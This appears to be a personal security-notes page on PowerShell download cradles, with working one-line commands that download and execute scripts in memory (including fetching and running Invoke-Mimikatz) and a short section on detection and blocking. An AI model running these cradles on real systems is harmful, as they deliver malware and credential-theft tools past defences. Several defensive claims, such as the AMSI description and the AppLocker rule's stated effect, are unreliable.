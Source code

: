 
# PowerShell Download Cradles
INIT
[Powershell](../../../computers/windows/powershell.md) download cradles are used to download and execute code *directly in memory* without it being written to disk. This helps them *bypass security* mechanisms. They're usually single-line commands and are commonly found in malware. They're typically used to implement stages of an exploit. For example, they may be used to download and run code to infiltrate additional malicious code onto a system after initial compromise. Or they might be used to set up persistence.
## Common Cmdlets
These cmdlets are commonly used in PS download cradles:
- `Invoke-WebRequest`:Used to retrieve content from a web page
- `Invoke-Expression`: (also executed using the alias `IEX`) used to execute PS commands and strings
- `System.Net.WebCleitn`: a [.NET](../../../coding/dotNET.md) class for web server interactions
## Basic Syntax
### Loading a Script into Memory
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.10.5:44444/Invoke-Mimikatz.ps1)
```
### Running the Script from Memory
```powershell
Invoke-Mimikatz -Command '"privilege::debug"'
```
## Common Download Cradle Examples
### Basic WebClient
```powershell
# Standard WebClient download cradle
IEX (New-Object Net.Webclient).downloadstring("https://example.com/script.ps1")

# PowerShell 3.0+ using Invoke-WebRequest (alias: iwr)
IEX (iwr 'https://example.com/script.ps1')
```
### COM Object Methods
```powershell
# Internet Explorer COM object
$ie = New-Object -comobject InternetExplorer.Application
$ie.visible = $False
$ie.navigate('https://example.com/script.ps1')
start-sleep -s 5
$r = $ie.Document.body.innerHTML
$ie.quit()
IEX $r

# Msxml2.XMLHTTP COM object (proxy-aware)
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','https://example.com/script.ps1',$false)
$h.send()
iex $h.responseText
```
## Detection
Modern security products use a few techniques to detect download cradles including logging, network traffic analysis, EDR, memory scanning, etc..
### `SetExecutionPolicy`
One common way organizations protect agains cradles is by restricting execution permissions using `SetExecutionPolicy`:
```powershell
# Execution Policy
Set-ExecutionPolicy Restricted
```
### AMSI
"AMSI" sandboxing (available in PowerShell 5.0+) allows admins to restrict the use of malicious commands and scripts. AMSI prevents scripts and commands from running based on their type, even if they're legitimate.

When you try to execute a command in PowerShell 5.0+, it sends the command to the *AMSI module* first which checks the command *against a set of rules*. If it finds anything malicious, it filters it out or unauthorizes the command altogether. If AMSI deems the command safe, it allows it to run.
### Blocking Download Cradle Patterns
Admins can also use `New-AppLockerPolicy` to block PS cradles from being downloaded (based on detecting common cradle characteristics):
```powershell
# AppLocker Rules
# Block PowerShell download cradle patterns
New-AppLockerPolicy -RuleType Path -Deny -Path "%SYSTEM32%\WindowsPowerShell\*\powershell.exe" -User Everyone
```


> [!Resources]
> - [Matt's DFIR blog: Download Cradles](https://mgreen27.github.io/posts/2018/downloadcradle/)
> - [BloodStiller: Understanding PowerShell Download Cradles](https://bloodstiller.com/articles/understandingdownloadcradles/)